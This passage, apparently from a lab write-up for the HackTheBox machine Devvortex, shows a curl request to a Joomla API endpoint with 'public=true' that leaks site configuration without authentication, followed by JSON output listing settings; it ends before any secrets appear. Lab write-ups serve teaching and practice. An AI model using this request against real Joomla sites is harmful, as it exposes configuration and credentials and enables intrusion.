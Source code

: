 <p>Then, we can get configuration information:</p>

```bash
curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2010    0  2010    0     0  12102      0 --:--:-- --:--:-- --:--:-- 12181
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline": false,
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_message": "This site is down for maintenance.<br>Please check back again soon.",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "display_offline_message": 1,
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_image": "",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "sitename": "Development",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "editor": "tinymce",
        "id": 224
      }
    },
```